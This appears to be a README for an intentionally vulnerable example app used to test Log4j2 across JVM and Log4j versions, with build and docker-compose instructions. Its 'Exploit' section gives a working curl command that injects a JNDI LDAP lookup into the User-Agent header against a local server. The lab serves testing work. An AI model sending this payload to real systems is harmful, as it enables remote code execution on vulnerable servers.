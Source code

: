 # Example App for log4j2 testing purposes

### Setup

You will need to install:

```
docker
docker-compose
```

If you want to run the resulting JAR files directly on your host, you will need to install JDK8 or JDK11 depending on
what testing is to be performed. 

> Note: Currently the project targets only those JDK versions

### Build


> NOTE on versions:
> 
> There is a huge number of combinations of JVM version and Log4j versions.  By default, the build scripts and the
> docker-compose setup uses a subset of these combinations.  The subset is JVM 8/11 and Log4j vulnerable versions, but
> the last Z for each minor (i.e., 2.15.0, 2.14.1, 2.13.1, etc).
>
> If you want to build and run ALL the versions use the `build_all.sh` and `docker-compose-all.yml` files in place of the
> build.sh and docker-compose.yml files mentioned in the details below.

You first need to build all the JAR files (if desired, test single versions see `Build JAR for single version`). 

```
sh -x ./build/build.sh
```

> NOTE: Customize for the versions you want to create


If you want to run a build manually; this is the command

```
LOG4J_VERSION=2.6.1 mvn clean assembly:assembly -DdescriptorId=jar-with-dependencies
```

You must set the LOG4J_VERSION env var or the pom is invalid


### Run

Manually running one version on a host directly: 

> NOTE: This assumes you have the proper JRE version installed!

```
PORT=8080 java -jar <jar> # You must set the PORT or it will error!
```

Running inside of a docker container (see docker-compose.yml for additional info)

```
docker-compose [-f docker-compose.yml] up [image]
```


### Exploit

Send a properly formated jdni:ldap message as your user agent, example:

```
curl 127.0.0.1:8080/ -H 'User-Agent: ${jndi:ldap://127.0.0.1:1389/Exploit}'
```


### Build JAR for single version

Where the first argument is the Java version and the second is the LOG4J_VERSION.  Once built, and individual version
can be started with docker-compose via `docker-compose up log4j_1.8_2.15.0` (see docker-compose.yml for configured
versions).

```
sh -x ./build/build_one.sh 1.8 2.15.0
```
